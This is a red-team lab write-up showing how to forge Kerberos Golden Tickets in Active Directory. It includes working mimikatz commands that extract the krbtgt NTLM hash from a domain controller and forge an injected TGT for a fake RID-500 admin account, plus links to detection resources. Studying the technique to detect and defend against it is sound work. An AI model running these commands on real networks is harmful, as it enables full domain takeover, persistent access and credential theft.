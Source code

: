 ```yaml
---
description: Persistence and Privilege Escalation with Golden Kerberots tickets
---
```


# Kerberos: Golden Tickets

This lab explores an attack on Active Directory Kerberos Authentication. To be more precise - an attack that forges Kerberos Ticket Granting Tickets \(TGT\) that are used to authenticate users with Kerberos. TGTs are used when requesting Ticket Granting Service \(TGS\) tickets, which means a forged TGT can get us any TGS ticket - hence it's golden.

This attack assumes a Domain Controller compromise where `KRBTGT` account hash will be extracted.

## Execution

Extracting the krbtgt account's password `NTLM` hash:

{% code-tabs %}
{% code-tabs-item title="attacker@victim-dc" %}
```csharp
mimikatz # lsadump::lsa /inject /name:krbtgt
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/kerberos-golden-krbtgt-hash.png)

Creating a forget golden ticket that automatically gets injected in current logon session's memory:

{% code-tabs %}
{% code-tabs-item title="attacker@victim-workstation" %}
```text
mimikatz # kerberos::golden /domain:offense.local /sid:S-1-5-21-4172452648-1021989953-2368502130 /rc4:8584cfccd24f6a7f49ee56355d41bd30 /user:newAdmin /id:500 /ptt
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/kerberos-golden-create.png)

Checking the ticket got created:

![](../../.gitbook/assets/kerberos-golden-klist.png)

Opening another powershell console with non-elevated privileges/non-admin account and trying to mount a `c$` share of `pc-mantvydas` and `dc-mantvydas` - not surprisingly, returns access denied:

![](../../.gitbook/assets/kerberos-golden-denied.png)

Now switching back to the console the attacker used to create a golden ticket \(local admin\) and again attempting to access `c$` share - this time a success:

![](../../.gitbook/assets/kerberos-golden-granted.png)

## Observations

![](../../.gitbook/assets/kerberos-golden-logon.png)

![](../../.gitbook/assets/kerberos-golden-share.png)

{% embed data="{\"url\":\"https://blog.stealthbits.com/complete-domain-compromise-with-golden-tickets/\",\"type\":\"link\",\"title\":\"Complete Domain Compromise with Golden Tickets \| Insider Threat Blog\",\"description\":\"Use Mimikatz to get password hashes for the KRBTGT account to forge Kerberos tickets \(TGTs\), Golden Tickets, to compromise all accounts in Active Directory.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://blog.stealthbits.com/wp-content/uploads/2016/06/cropped-Logo\_STEALTHbits\_Orb\_Blue\_250x250-192x192.png\",\"width\":192,\"height\":192,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://blog.stealthbits.com/wp-content/uploads/2017/05/Banner-Blog-Series-1024-x-326-3.jpg\",\"width\":1024,\"height\":326,\"aspectRatio\":0.318359375}}" %}

{% embed data="{\"url\":\"https://adsecurity.org/?p=1515\",\"type\":\"link\",\"title\":\"Detecting Forged Kerberos Ticket \(Golden Ticket & Silver Ticket\) Use in Active Directory – Active Directory Security\"}" %}


